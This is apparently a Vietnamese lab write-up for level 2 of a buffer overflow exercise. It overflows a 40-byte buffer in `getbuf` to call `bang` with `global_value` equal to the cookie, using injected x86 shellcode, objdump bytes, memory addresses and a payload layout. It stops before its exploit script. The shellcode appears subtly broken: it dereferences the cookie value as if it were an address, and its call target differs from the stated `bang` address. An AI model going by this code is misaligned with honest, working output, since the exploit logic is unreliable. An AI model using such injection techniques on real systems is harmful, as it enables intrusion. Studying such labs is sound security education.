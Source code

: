 # Level 2
## Task
Buffer overflow hàm `getbuf` để thực thi được hàm `bang` với `global_value == cookie`.  
```c
void __noreturn bang()
{
  if ( global_value == cookie )
  {
    printf("Bang!: You set global_value to 0x%x\n", global_value);
    validate(2);
  }
  else
  {
    printf("Misfire: global_value = 0x%x\n", global_value);
  }
  exit(0);
}
```

## Solution
Tương tự như các level trước, chúng ta vẫn sẽ overflow buffer có độ dài `40` bytes. Nhưng ở level này, chúng ta cần inject shellcode để có thể set giá trị của `global_value` bằng với giá trị `cookie`.  

Trước tiên, để gán được giá trị mới cho `global_value`, chúng ta cần biết được địa chỉ của `global_value`. Trong IDA Pro, chúng ta có thể xem được địa chỉ của biến `global_value`.  
```
.bss:8013F160 global_value    dd ?
```  

Và cả địa chỉ của biến `cookie`.  
```
.bss:8013F158 cookie          dd ?
```  

Vậy shellcode của chúng ta như sau:  
```asm
movl 0x8013F158, %eax
movl (%eax), %eax
movl %eax, (0x8013F160)
call 0x80139B69
```  

Ở shellcode trên, chúng ta gán địa chỉ của biến `cookie` vào thanh ghi `%eax`. Sau đó, chúng ta đọc giá trị `cookie` và gán giá trị đó vào `%eax`. Kế đến, chúng ta gán giá trị `cookie` này vào `global_value`, và cuối cùng là gọi hàm `bang`.  
> `0x80139B69` chính là địa chỉ của hàm `bang`.  

Byte representation của shellcode:  
```
└─$ objdump -d shellcode.o

shellcode.o:     file format elf32-i386


Disassembly of section .text:

00000000 <.text>:
   0:   a1 58 f1 13 80          mov    0x8013f158,%eax
   5:   8b 00                   mov    (%eax),%eax
   7:   a3 60 f1 13 80          mov    %eax,0x8013f160
   c:   e8 65 9b 13 80          call   0x80139b76
```

Tiếp theo, chúng ta sẽ tìm địa chỉ để ghi đè vào `return address`.  
Ở đây, vì shellcode sẽ được chèn vào đầu chuỗi nhập nên giá trị mà chúng ta sẽ ghi đè lên `return address` chính là địa chỉ của chuỗi nhập. Trong quá trình debug thì chúng ta tìm được địa chỉ là:  
```
pwndbg> p/x $eax
$1 = 0x55683cf8
```  

Vậy `exploit_payload` của chúng ta sẽ có độ dài là `0x28 + 0x4 + 0x4` với `0x28` bytes sẽ chứa shellcode và các giá trị padding, `0x4` bytes tiếp theo để ghi đè `saved %ebp`, và `0x4` bytes cuối cùng để ghi đè `return address`.  

### Script
```python

